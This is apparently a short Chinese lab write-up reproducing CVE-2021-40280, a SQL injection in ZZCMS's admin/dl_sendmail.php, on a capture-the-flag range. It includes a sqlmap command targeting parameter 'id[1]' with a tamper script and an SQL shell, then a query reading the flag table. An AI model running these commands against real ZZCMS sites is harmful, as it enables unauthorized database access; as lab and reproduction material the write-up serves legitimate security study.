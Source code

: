 ```yaml
---
title: CVE-2021-40280【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[ZZCMS2021 sqlinject(4) · GitHub](https://gist.github.com/aaaahuia/1fd31c1ebcddfe4c95268fa4f31fc312)

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.2中在admin/dl_sendmail.php存在sql注入漏洞

## 2. 漏洞复现

burp suite抓包跑sqlmap

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310091432121.png)

```shell
python  sqlmap.py -r post.txt -p "id[1]" --tamper="between.py"  --batch  --sql-shell
select flag from flag
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310091434381.png)
